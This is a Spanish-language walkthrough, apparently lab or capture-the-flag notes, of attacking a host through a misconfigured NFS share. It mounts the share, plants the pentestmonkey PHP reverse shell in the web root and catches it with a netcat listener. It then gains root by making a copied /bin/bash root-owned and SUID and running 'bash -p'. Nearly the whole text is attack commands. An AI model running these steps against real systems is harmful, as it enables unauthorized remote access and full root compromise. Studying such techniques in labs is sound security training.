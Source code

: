 creamos una carpeta para montarnos el sistema:

mkdir -p /mnt/nfs_share

montamos el sistema

sudo mount -t nfs 192.168.42.137:/var/www/html /mnt/nfs_share

creamos una reverse shell:

nano /mnt/nfs_share/reverse.php

el contenido es la reverse shell de pentestmonkey

luego nos ponemos en ecucha con el puerto que le asignamos en el reverse.php

nc -lvnp puerto

y en la url:

http://192.168.42.137/reverse.php

Escalar privilegios:

en la máquina víctima:

copiamos el /bin/bash al sistema de archivos que se comparte

para el ejemplo:

cp /bin/bash .

en kali:

en el sistema montado:

cambiamos el propietario a root y grupo a root:

sudo chown root:root ./bash

Cambiamos los permisos de un archivo y activamos el bit SUID (Set User ID) para el usuario propietario del archivo:

sudo chmod u+s ./bash

escalamos a root:

./bash -p

Desmontar el sistema de archivos NFS:

sudo umount /mnt/nfs_share

si me sale el error :

umount.nfs4: /mnt/nfs_share: device is busy

Ejecutamos:

sudo fuser -k /mnt/nfs_share

y volvemos a ejecutar:

sudo umount /mnt/nfs_share
